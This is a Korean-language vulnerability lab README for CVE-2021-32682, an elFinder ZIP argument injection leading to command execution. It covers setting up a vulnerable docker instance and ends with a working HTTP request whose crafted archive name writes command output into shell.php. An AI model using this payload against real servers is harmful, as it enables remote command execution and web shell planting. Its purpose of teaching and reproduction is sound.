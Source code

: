 # elFinder ZIP 인수 삽입이 명령어 삽입으로 이어짐(CVE-2021-32682)

[한국어 버전(Korean version)]

elFinder는 jQuery UI를 사용하여 JavaScript로 작성된 웹용 오픈 소스 파일 관리자입니다.

elFinder 2.1.48 버전과 이전 버전에서 Arguments Injection이 발견되었습니다. 이 취약점을 통해 최소한의 구성이라도 elFinder PHP connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다. 이 문제는 2.1.59에서 패치되었습니다. 반드시 인증 없이 노출되게 하지 마세요.

참고 자료:

* https://blog.sonarsource.com/elfinder-case-study-of-web-file-manager-vulnerabilities
* https://packetstormsecurity.com/files/164173/elfinder_archive_cmd_injection.rb.txt
* https://xz.aliyun.com/t/10739

## 취약점 환경
elFinder 2.1.48를 시작할려면 다음 명령을 실행하십시오:<br>
<pre><code>docker compose up -d</code></pre>
서버가 시작된 후 <code>http://your-ip:8080</code>에서 elFinder의 메인 페이지를 볼 수 있습니다.

## 취약점 재현
먼저, 이 취약점 흐름을 위해 2개의 파일을 준비헤야됩니다.<br><br>
<code>1.txt</code>라는 일반 텍스트 파일을 만듭니다.:<br><br>
![1](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/1.png)

마우스 오른쪽 버튼 클릭 메뉴에서 이 파일을 ZIP 형식으로 보관하고 보관된 파일 이름을 <code>2.zip</code>로 수정합니다.:

![2](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/2.png)

<code>1.txt</code>와 <code>2.zip</code>가 여기 준비되었습니다.:

![3](https://github.com/Tjdmin1/whitehat-school-vulhub/blob/main/elfinder/CVE-2021-32682/3.png)

그 다음, 임의의 명령을 실행하기위해 아래의 요청을 보냅니다.
<pre><code>GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close

  

</code></pre>
